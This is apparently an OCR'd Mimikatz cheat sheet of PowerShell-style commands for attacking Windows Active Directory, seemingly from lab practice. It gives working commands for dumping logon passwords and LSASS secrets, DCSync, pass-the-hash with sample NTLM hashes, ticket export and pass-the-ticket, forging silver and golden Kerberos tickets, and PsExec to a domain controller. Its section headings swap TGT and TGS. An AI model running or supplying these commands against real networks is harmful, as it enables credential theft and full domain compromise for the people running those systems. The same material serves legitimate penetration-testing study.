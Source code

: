 ```PowerShell
# -------------------- #
# General Commands
# -------------------- #
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
sekurlsa::pth /user:maria /ntlm:2a944a58d4ffa77137b2c587e6ed7626 /domain:corp.com # passing the hash

# -------------------- #
# LSADUMP
# -------------------- #
lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::lsa /patch # the /patch command gives you more sensitive imformation by going throught the LSASS Memory.

# -------------------- #
# Pass The Hash
# -------------------- #
# pass the hash of a different user & get a shell session.
sekurlsa::pth /user:jen /domain:corp.com /ntlm:[HASH] /run:powershell # try by appending a colon (:) before the hash if it does not work.

# -------------------- #
# Pass The Ticket
# -------------------- #
# exporting tickets
sekurlsa::tickets /export # exports all tickets in the Current Working Directory.
# passing the ticket
kerberos::ptt [0;147d3d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi # example ticket name ends in .kirbi extention.
# check with the command 'klist'.

# -------------------- #
# Silver Tickets - TGT
# -------------------- #
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
# RC4 keys are used to encrypt Service Tickets.
# cmd:> klist can be used to see the cached tickets.

# -------------------- #
# Golden Tickets - TGS
# -------------------- #
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:[KerbtgtAccountHash] /ptt
# once a TGT is generated in the current user's name, run cmd:
misc::cmd # this will run the cmd with jen's tiket in action.
# next steps...
.\PSExec.exe \\dc1 cmd.exe # or powershell
# current user will be added to the domain admins group becuase of the ticket.

# Example
sekurlsa::pth /user:leon /domain:medtech.com /ntlm:2e208ad146efda5bc44869025e06544a /run: powershell


```

---